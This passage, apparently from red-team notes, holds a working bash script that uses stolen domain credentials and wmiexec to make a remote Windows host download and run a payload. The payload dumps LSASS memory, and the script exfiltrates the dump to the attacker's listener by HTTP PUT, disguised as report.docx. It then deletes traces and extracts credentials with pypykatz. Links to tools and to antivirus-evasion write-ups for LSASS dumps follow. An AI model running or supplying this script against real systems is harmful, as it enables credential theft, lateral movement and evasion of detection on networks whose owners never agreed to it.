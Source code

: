 {% code title="nanodump_ssp.sh.cs" %}
```bash
#!/usr/bin/env bash

# Usage: sudo nanodump_ssp.sh <[DOMAIN\]USERNAME>:<PASSWORD> <TARGET> <LISTENER>
# Example: sudo nanodump_ssp.sh 'megacorp.local\snovvcrash:Passw0rd!' 192.168.1.11 10.10.13.37 80

CREDS=$1
RHOST=$2
LHOST=$3
LPORT=$4

CMD="IWR -Uri http://${LHOST}/a.exe -OutFile C:\Windows\Temp\a.exe;IWR -Uri http://${LHOST}/a.dll -OutFile C:\Windows\Temp\a.dll;C:\Windows\Temp\a.exe C:\Windows\Temp\a.dll"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

python3 -m http.server ${LPORT} &

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 10

kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`
python3 put.py --bind=0.0.0.0 ${LPORT} &

CMD="IWR -Uri http://${LHOST}/out.bin -Method PUT -InFile C:\Windows\Temp\report.docx;rm C:\Windows\Temp\a.exe;rm C:\Windows\Temp\a.dll;rm C:\Windows\Temp\report.docx"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 30

kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`

bash restore_signature.sh out.bin
pypykatz lsa minidump out.bin

chown ${SUDO_USER}:${SUDO_USER} out.bin
```
{% endcode %}


#### RToolZ

- [https://github.com/OmriBaso/RToolZ](https://github.com/OmriBaso/RToolZ)




## Bypass Saving on Disk Detection

- [https://www.bussink.net/lsass-minidump-file-seen-as-malicious-by-mcafee-av/](https://www.bussink.net/lsass-minidump-file-seen-as-malicious-by-mcafee-av/)
- [https://github.com/k4nfr3/Dumpert](https://github.com/k4nfr3/Dumpert)

